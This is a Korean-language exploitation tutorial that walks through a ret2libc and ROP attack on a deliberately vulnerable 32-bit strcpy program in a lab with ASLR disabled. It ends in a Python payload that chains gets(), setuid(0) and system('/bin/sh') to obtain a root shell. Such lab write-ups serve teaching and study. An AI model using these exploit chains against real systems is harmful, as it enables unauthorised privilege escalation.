저번 ret2sc 와 달리 ret2libc 는 매핑된 외부 라이브러리 함수를 이용해 쉘을 실행하기 때문에 DEP 가 걸려있어도 유효한 기법입니다.

만약 ASLR이 적용된 환경이라면 주소가 매번 변경되므로 주소 leak 과 오프셋 계산 과정이 추가적으로 들어가는데, 이 주제는 다음 글에서 다루도록 하겠습니다.

이번에는 ret2libc 기법으로 쉘을 획득하고 ROP 기법으로 권한상승까지 해보겠습니다.

저번과 똑같은 예제 코드지만 이번엔 스택 실행 권한이 없습니다.

```c
/*
$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -no-pie 
$ cat /proc/sys/kernel/randomize_va_space # 0

Kernel: 4.4.0-142-generic x86_64 | gcc: 5.4.0
Checksec: Partial RELRO | No canary found | NX enabled | No PIE
*/
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
    char buf[32];
    strcpy(buf, *(argv + 1));
    printf("%s", buf);
}
```

`system()` 이 호출이 가능한지 확인하기 위해 ret 영역을 `system()` 의 주소로 덮어보겠습니다.





호출은 됐지만 적절한 인수를 넘겨 받지 못해 에러가 발생하였습니다.

인수 전달 구조를 파악해야 하니 `system()` 내부에 BP 를 걸고 스택을 확인해보겠습니다.



esp+0x8 은 이미 끝난 `main()` 의 ret 이고, esp+0x0c 는 `system()` 의 ret 입니다. 그리고 esp+0x10 이 `system()` 의 인자 주소 영역입니다.

즉, 현재 스택이 0x0c 밀려있으니 각 주소들의 위치를 보면 페이로드는

```plaintext
36 bytes + system() + 4 bytes + "/bin/sh"
```

이런 형태가 되어야 합니다.

그런데 `"/bin/sh"` 문자열의 주소를 어떻게 전달해야 할까요?

물론 스택에 넣고 그 주소를 쓰는 것도 방법이지만, 이전 ret2sc 기법에서 쉘코드의 시작 주소를 정확히 찍기가 어려워 nop slide 를 추가했던 것을 생각하면 좋은 방법은 아닙니다.

여기서 좋은 방법이 있습니다.

현재 환경은 ASLR 이 비활성화된 환경이라 라이브러리가 모든 프로세스에서 동일한 주소에 매핑됩니다.

두 사진은 서로 다른 프로세스임에도 libc 가 동일한 주소에 매핑되어 있는데 ASLR이 비활성화 되어있어 그렇습니다.





매핑된 `/lib32/libc.so.6` 의 코드 세그먼트에는 `"/bin/sh"` 문자열을 사용하는 곳이 있는데, 해당 문자열의 메모리 주소를 찾는 코드를 작성해보겠습니다.

```c
#include <stdio.h>
int main()
{
    char *v0 = (long *)0xf7e2b750;
    while(memcmp("/bin/sh", v0, 8))v0++;
    printf("%p", v0);
}
```



실행 결과, `0xf7f6d02b` 에 `"/bin/sh"` 문자열이 존재합니다.

이전에 언급했던 페이로드 구조 대로 실행때 인수로 넘겨보겠습니다.



쉘은 정상적으로 획득했고 여기까지가 ret2libc 입니다. 지금부터 여기에 ROP 개념을 더해 권한 상승을 시도해보겠습니다.

지금까지는 함수를 하나만 호출했지만, `setuid()` 로 권한을 상승한 뒤 `system()` 으로 쉘을 실행하려면 함수를 연속으로 호출해야 합니다.

이때 앞 함수의 인자를 스택에서 정리하고 다음 함수로 넘어가야 하는데, `setuid()` 는 인자가 1개이므로 `pop; ret` 가젯을 ret 에 넣어주면 스택을 정리하고 깔끔하게 다음 함수로 넘어갈 수 있습니다.

여담으로 ROP 는 단순 함수 체이닝 외에도 가젯을 조합해 레지스터를 원하는 값으로 맞출 수 있고, `sigcontext` 구조체에 맞춰 `sigreturn` 시스템콜을 호출해 eip 를 포함한 모든 레지스터를 원하는 대로 셋팅할 수도 있습니다.

이제 본론으로 돌아와서 권한상승을 목표로 ROP 를 해보겠습니다.



`setuid()` 는 uid 를 인수로 받는데, root 의 uid 는 0 이라 페이로드에 포함되면 `strcpy()` 가 그 지점에서 복사를 멈춰버립니다. 이를 우회하기 위해 `gets()` 를 활용할 수 있습니다.

`gets()` 는 아무 입력 없이 엔터만 누르면 dest 에 null 을 씁니다. dest 주소를 1바이트씩 증가시키며 `gets()` 를 4번 호출하면 4바이트 공간을 통째로 null 로 채울 수 있습니다.

테스트 삼아 `0xffffd664` 의 1바이트를 gets 호출로 null 로 덮어보겠습니다.





예상대로 `0xf7fedff0` 에서 `0xf7fedf00` 으로 값이 변경되었습니다.

페이로드는 `gets()` 를 4번 호출해 setuid 의 인수를 `0x00000000` 으로 덮은 뒤 `setuid(0)`, `system("/bin/sh")` 순으로 호출하도록 만들면 됩니다.

```plaintext
+--------+-------+------------------------+
| offset | stack |     payload            |
+--------+-------+------------------------+
|     00 | buf   |                        |
|     32 | ebp   | ~DUMMY                 |
|     36 | ret   | gets (0xf7e76890)      |
|     40 | argc  | pop; ret;              |
|     44 | argv  | dest + 0               |
|     48 | ?     | gets (0xf7e76890)      |
|     52 | ?     | pop; ret;              |
|     56 | arg1  | dest + 1               |
|     60 | ?     | gets (0xf7e76890)      |
|     64 | ?     | pop; ret;              |
|     68 | arg1  | dest + 2               |
|     72 | ?     | gets (0xf7e76890)      |
|     76 | ?     | pop; ret;              |
|     80 | arg1  | dest + 3               |
|     84 | ?     | setuid (0xf7ec8060)    |
|     88 | ?     | pop; ret;              |
|     92 | arg1  | 0x61*4 -> 0x00*4       |
|     94 | ?     | system (0xf7e52940)    |
|     98 | ?     | DUMMY                  |
|    102 | arg1  | "/bin/sh" (0xf7f7102b) |
|    106 | ?     | ~DUMMY                 |
|    156 | ?     |                        |
+--------+-------+------------------------+
```

체이닝에 필요한 주소를 얻어보겠습니다





필요한 모든 주소를 구했으니 페이로드를 작성해 넘겨보겠습니다.



실행하니 uid 가 `0x61616161` 의 dec 값으로 나왔네요.

ASLR 이 비활성화된 환경에서도 gdb 로는 정상이지만 직접 실행하면 안 되는 경우가 있는데, gdb 가 자체적으로 추가한 환경변수나 실행 경로, 파일명 등으로 인해 스택 주소가 밀려서 그런 경우가 많습니다.

약간 수정을 거쳐 다시 시도해보겠습니다.

```python
#!/usr/bin/env python
import os, struct, hexdump

p32 = lambda x : struct.pack("<I", x)

__libc_gets = p32(0xf7e76890)
__libc_setuid = p32(0xf7ec8060)
__libc_system = p32(0xf7e52940)

popret = p32(0x080484cb)
binsh = p32(0xf7f7102b)
dest = 0xffffd634

payload = '\x90' * 36
payload += __libc_gets + popret + p32(dest + 0x00)
payload += __libc_gets + popret + p32(dest + 0x01)
payload += __libc_gets + popret + p32(dest + 0x02)
payload += __libc_gets + popret + p32(dest + 0x03)
payload += __libc_setuid + popret + ('a' * 4)
payload += __libc_system + ('\x90' * 4) + binsh
payload += '\x90' * 50

# print(hexdump.hexdump(payload))

print(payload)
```

환경 변수와 덮어야 하는 주소를 다시 맞춰보니 권한 상승에 성공하였습니다.



읽어주셔서 감사합니다.